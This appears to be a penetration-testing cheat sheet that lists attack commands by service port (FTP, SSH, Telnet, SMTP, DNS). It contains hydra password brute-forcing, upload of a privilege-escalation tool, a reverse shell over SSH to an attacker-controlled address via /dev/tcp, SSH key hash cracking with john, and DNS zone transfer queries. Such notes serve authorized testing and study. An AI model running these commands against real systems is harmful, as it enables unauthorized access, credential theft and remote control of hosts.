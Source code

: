 ## Port Enumeration

##### FTP | Port 21

```bash
# Try to connect to FTP
$ ftp -A $IP
$ ftp $IP

# Set transmission to binary instead of ascii
ftp> binary
# Put file to FTP
ftp> put winPEASx86.exe

# Brute force FTP
$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ftp

# Download all files from FTP
$ wget -r ftp://user:pass@$IP/
```

##### SSH | Port 22
```bash
$ nc -nvlp 443
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa user@$IP -t 'bash -i >& /dev/tcp/$OUR_IP/443 0>&1'

# Brute force SSH
$ hydra -l user -P /usr/share/wfuzz/wordlist/others/common_pass.txt $IP -t 4 ssh
$ hydra -L users.txt -p password $IP -t 4 ssh -s <port>

# Change permissions of private key
$ chmod 600 id_rsa
$ ssh user@$IP -i id_rsa

# Convert key to hash for cracking
$ ssh2john id_ecdsa > id_ecdsa.hash
# Crack hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_ecdsa.hash
```

##### Telnet | Port 23
```bash
$ telnet -l user $IP
```

##### SMTP | Port 25
```bash
$ nc -nv $IP 25
$ telnet $IP 25
```

##### DNS | Port 53
```bash
# DNS zone transfer
$ dnsrecon -d domain_name -n $IP -t axfr

# Fetch name servers
$ dig +noall +answer -t NS target.com 
# Fetch exchange servers
$ dig +noall +answer -t MX target.com 
# Interrogate a specified domain name server
$ dig +noall +answer -t ANY target.com @ns.target.com 
# Fetch the zone file for a specified domain name server
$ dig +noall +answer -t AXFR target.com @ns.target.com 
```
